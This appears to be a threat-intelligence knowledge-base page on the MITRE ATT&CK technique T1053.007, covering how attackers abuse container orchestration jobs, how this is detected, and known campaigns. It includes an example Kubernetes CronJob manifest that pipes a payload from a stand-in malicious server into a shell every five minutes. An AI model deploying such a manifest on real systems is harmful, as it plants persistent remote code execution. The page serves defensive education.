 ```yaml
---
description: Container Orchestration Job [T1053.007]
icon: lock
---
```


# Container Orchestration Job

## Information

* Name: Container Orchestration Job
* ID: T1053.007
* Tactics: [TA0002](../../ta0002/), [TA0003](../../ta0003/), [TA0004](../)
* Technique: [T1053](./)

## Introduction

Container Orchestration Job (T1053.007) is a sub-technique within the Scheduled Task/Job (T1053) technique category of the MITRE ATT\&CK framework. This sub-technique specifically involves adversaries leveraging container orchestration platforms, such as Kubernetes, Docker Swarm, Amazon ECS, or Azure Container Instances, to schedule and execute malicious jobs or tasks. Attackers exploit legitimate job scheduling functionalities provided by these platforms to execute unauthorized commands, scripts, or binaries, thus achieving persistence, lateral movement, privilege escalation, or command and control (C2) communications.

## Deep Dive Into Technique

Adversaries utilize container orchestration systems' built-in scheduling capabilities to execute malicious tasks. Container orchestrators such as Kubernetes and Docker Swarm periodically execute scheduled tasks or jobs, defined through YAML or JSON configuration files, to automate routine operations. Attackers exploit this functionality by injecting or modifying these scheduled jobs to run malicious payloads.

Technical execution details often include:

* **Kubernetes CronJobs**:
  * Attackers create or modify CronJob resources to execute scripts or commands at scheduled intervals.
  * YAML manifests specify the container image, commands, and execution schedules (cron syntax).
  *   Example Kubernetes manifest:

      ```yaml
      apiVersion: batch/v1
      kind: CronJob
      metadata:
        name: malicious-job
        namespace: default
      spec:
        schedule: "*/5 * * * *"
        jobTemplate:
          spec:
            template:
              spec:
                containers:
                  - name: malicious-container
                    image: attacker-controlled-image
                    command:
                      [
                        "/bin/sh",
                        "-c",
                        "curl http://malicious-server/payload.sh | sh",
                      ]
                restartPolicy: OnFailure
      ```
* **Docker Swarm Scheduled Tasks**:
  * Docker Swarm does not natively support scheduling jobs; however, attackers might leverage external schedulers or cron containers to achieve similar functionality.
  * Attackers deploy malicious containers that periodically execute commands or scripts to maintain persistence or exfiltrate data.
* **Cloud Container Platforms (Amazon ECS, Azure Container Instances)**:
  * Attackers schedule tasks using cloud-native scheduling tools (e.g., AWS CloudWatch Events, Azure Logic Apps) to trigger malicious container executions.
  * Attackers manipulate task definitions or event triggers to execute containers containing malicious payloads.

Common mechanisms attackers use include:

* Creating new scheduled jobs to establish persistence or maintain a foothold.
* Modifying existing legitimate jobs to include malicious commands or payloads.
* Using orchestrator APIs or compromised credentials to deploy malicious scheduled tasks.
* Leveraging scripts or binaries within containers to perform reconnaissance, lateral movement, or data exfiltration.

## When this Technique is Usually Used

Adversaries typically employ Container Orchestration Jobs during various stages of the attack lifecycle, including:

* **Persistence**:
  * Scheduling malicious tasks that periodically re-establish access if initial footholds are removed.
  * Ensuring continued presence within compromised environments through regular execution of malicious payloads.
* **Execution**:
  * Utilizing scheduled tasks to execute payloads, scripts, or commands on containerized workloads.
  * Automating command execution within compromised systems at predetermined intervals.
* **Privilege Escalation and Lateral Movement**:
  * Exploiting orchestrator privileges or misconfigurations to schedule tasks in higher-privileged namespaces or clusters.
  * Moving laterally by scheduling tasks on other nodes or clusters within the orchestrated environment.
* **Command and Control (C2) Communications**:
  * Scheduling containers that periodically communicate with attacker-controlled infrastructure to receive commands or exfiltrate data.
* **Data Exfiltration**:
  * Automating data collection and exfiltration through scheduled container tasks.

## How this Technique is Usually Detected

Detection mechanisms for Container Orchestration Jobs typically include:

* **Monitoring and Logging**:
  * Enabling and centrally collecting logs from container orchestration platforms (e.g., Kubernetes API server audit logs, Docker daemon logs).
  * Monitoring scheduled job creation, modification, or deletion events closely.
* **Behavioral Analytics**:
  * Implementing anomaly detection solutions to identify unusual scheduled job creation or execution patterns.
  * Detecting unusual container images or commands used in scheduled tasks.
* **Security Tools and Platforms**:
  * Container security solutions (e.g., Aqua Security, Sysdig, Prisma Cloud) capable of detecting suspicious container images, runtime behaviors, and orchestrator API activities.
  * SIEM platforms (Splunk, ELK, QRadar) configured to alert on suspicious orchestration events or API calls.
* **Indicators of Compromise (IoCs)**:
  * Unexpected CronJob or Job resources appearing in Kubernetes clusters.
  * Scheduled tasks referencing unknown or untrusted container images.
  * Unusual outbound network connections originating from scheduled containers.
  * Logs indicating unauthorized API calls or modifications to orchestrator configurations.

## Why it is Important to Detect This Technique

Early detection of Container Orchestration Job misuse is critical due to the following impacts:

* **Persistent Access**:
  * Attackers can maintain long-term persistence within containerized environments, making remediation challenging without detection.
* **Data Exfiltration**:
  * Scheduled malicious tasks can regularly exfiltrate sensitive data, intellectual property, or customer information, leading to significant financial and reputational damage.
* **Resource Abuse and Cost Implications**:
  * Attackers may use scheduled containers for cryptocurrency mining or other resource-intensive tasks, causing increased infrastructure costs.
* **Privilege Escalation and Lateral Movement**:
  * Misuse of orchestration platforms can allow attackers to escalate privileges or move laterally across container clusters, significantly expanding the attack surface.
* **Operational Disruption**:
  * Malicious scheduled tasks can disrupt legitimate workloads, degrade performance, or cause service outages, impacting business continuity.

Detecting this technique early allows organizations to rapidly contain incidents, minimize damage, and prevent attackers from achieving their objectives.

## Examples

Real-world examples and scenarios involving Container Orchestration Jobs include:

* **TeamTNT Attacks**:
  * Attackers leveraging Kubernetes CronJobs to deploy cryptocurrency mining containers.
  * Scheduled tasks periodically pulling malicious container images from attacker-controlled registries to mine cryptocurrencies, leading to increased cloud infrastructure costs and degraded performance.
* **Hildegard Malware**:
  * Hildegard malware targeted Kubernetes clusters, creating CronJobs to execute malicious scripts.
  * Scheduled tasks downloaded and ran malicious payloads, enabling attackers to establish persistence, conduct lateral movement, and exfiltrate data.
* **Kinsing Malware Campaign**:
  * Attackers used compromised Kubernetes clusters to schedule malicious jobs for cryptocurrency mining.
  * CronJobs executed periodically, ensuring persistent access and continuous resource abuse.
* **Azure Container Instance (ACI) Exploitation**:
  * Adversaries compromised Azure Container Instances, scheduling malicious containers that executed scripts to exfiltrate sensitive data to external servers.
  * Attackers leveraged Azure Logic Apps or Azure Automation to trigger scheduled malicious containers.

In these scenarios, attackers leveraged scheduled container tasks to maintain persistence, execute malicious commands, escalate privileges, and exfiltrate data, demonstrating the critical importance of monitoring and detecting Container Orchestration Job abuses.
